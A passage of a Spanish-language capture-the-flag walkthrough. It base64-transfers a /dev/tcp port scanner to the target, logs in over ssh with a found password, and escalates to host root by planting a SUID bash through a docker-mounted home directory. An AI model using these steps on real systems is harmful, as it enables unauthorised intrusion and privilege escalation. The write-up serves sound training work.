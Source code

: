 
Vamos a pasarlo a la máquina víctima para luego ejecutarlo.

```plaintext
❯ cat portscan.py | base64 -w 0
IyEvYmluL2Jhc2gKCmZ1bmN0aW9uIGN0cmxfYygpewogICAgZWNobyAiWyFdIFNhbGllbmRvLi4uIgogICAgZXhpdCAxCn0KCnRyYXAgY3RybF9jIElOVAoKZm9yIGkgaW4gJChzZXEgMSA2NTUzNSk7IGRvCiAgICB0aW1lb3V0IDEgYmFzaCAtYyAiZWNobyAnJyA+IC9kZXYvdGNwLzE3Mi4xOS4wLjEvJGkiIDI+L2Rldi9udWxsICYmIGVjaG8gIlsqXSBQdWVydG8gQWJpZXJ0bzogJGkiICYKZG9uZQo=
> echo 'IyEvYmluL2Jhc2gKCmZ1bmN0aW9uIGN0cmxfYygpewogICAgZWNobyAiWyFdIFNhbGllbmRvLi4uIgogICAgZXhpdCAxCn0KCnRyYXAgY3RybF9jIElOVAoKZm9yIGkgaW4gJChzZXEgMSA2NTUzNSk7IGRvCiAgICB0aW1lb3V0IDEgYmFzaCAtYyAiZWNobyAnJyA+IC9kZXYvdGNwLzE3Mi4xOS4wLjEvJGkiIDI+L2Rldi9udWxsICYmIGVjaG8gIlsqXSBQdWVydG8gQWJpZXJ0bzogJGkiICYKZG9uZQo=' | base64 -d > portscan.sh
```

Vamos a asignarle privilegios de ejecución al script y ejecutarlo.

```plaintext
> chmod +x portscan.sh
> ./portscan.sh
[*] Puerto Abierto: 22
[*] Puerto Abierto: 80
```

Vemos que está abierto el puerto 22 y 80, vamos a intentar conectarnos por `ssh` con el usuario "augustus" con la contraseña que habíamos encontrado antes (superadministrator).

```plaintext
> ssh augustus@172.19.0.1
augustus@172.19.0.1's password: superadministrator
> whoami
augustus
```

Como tenemos montado el home del usuario "augustus" en el docker y tenemos el usurio "root" podríamos traernos un binario con permisos SUID al home del usuario para poder escalar al usuario en el host.

```plaintext
> cp /bin/bash /home/augustus/ (docker)
> chmod 4777 bash (docker)
> chown root:root bash (docker)
> ./bash -p (ssh)
```

Ahora que hemos conseguido convertirnos en "root" en la máquina víctima, vamos a leer la flag del usuario root.

```plaintext
> cat /root/root.txt
8ghb158cf1469754f****************
```
